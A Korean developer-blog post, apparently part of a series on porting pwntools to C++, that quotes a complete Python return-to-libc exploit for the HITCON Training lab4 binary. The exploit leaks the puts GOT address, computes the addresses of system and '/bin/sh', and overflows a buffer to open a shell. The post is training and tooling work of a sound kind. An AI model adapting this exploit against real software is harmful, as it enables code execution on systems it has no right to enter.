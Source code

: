 ```yaml
---
title:  pwntools 개발기 (3)
excerpt: "ELF class 추가하기"
search: true
categories: pwntools
tags: dev
toc: true
---
```


라이브러리로 작성된 완전한 코드는 아래에서 확인 가능하다.<br>
[https://github.com/lucid78/pwntoolscpp](https://github.com/lucid78/pwntoolscpp){: target="_blank"}
{: .notice--info}

## **LAB4**

이제 가장 기본적인 기능은 어느정도 완성되었고, lab3에서도 동작하는 것을 확인했으니 이번에는 lab4를 공략해보자.
<br>
아래는 [https://bachs.tistory.com/entry/HITCON-Training-lab4-return-to-library](https://bachs.tistory.com/entry/HITCON-Training-lab4-return-to-library) 에서 발췌한 lab4를 공략하는 exploit이다.



```cpp
from pwn import *
 
p = process('./ret2lib')
e = ELF('./ret2lib')
 
#found address of puts got
log.info("found address of puts got : %s" % hex(e.got["puts"]))
puts_got = e.got["puts"]
 
p.recvuntil(":")
p.send(str(puts_got))
 
puts_addr = p.recvline()
puts_addr = int(puts_addr.split(":")[1].strip(), 16) 
 
sys_offset   = 0x24d40
binsh_offset = 0xfd548
 
system_addr = puts_addr - sys_offset
binsh_addr  = puts_addr + binsh_offset
 
log.info("address of puts : %s" % hex(puts_addr))
log.info("address of system : %s" % hex(system_addr))
log.info("address of /bin/sh string : %s" % hex(binsh_addr))
 
payload  = ""
payload += "a"*60 #dummy 60bytes
payload += p32(system_addr)
payload += "aaaa"
payload += p32(binsh_addr)
 
p.recvuntil(":")
p.send(payload)
p.interactive()

출처: https://bachs.tistory.com/entry/HITCON-Training-lab4-return-to-library [Bach`s Blog]
```
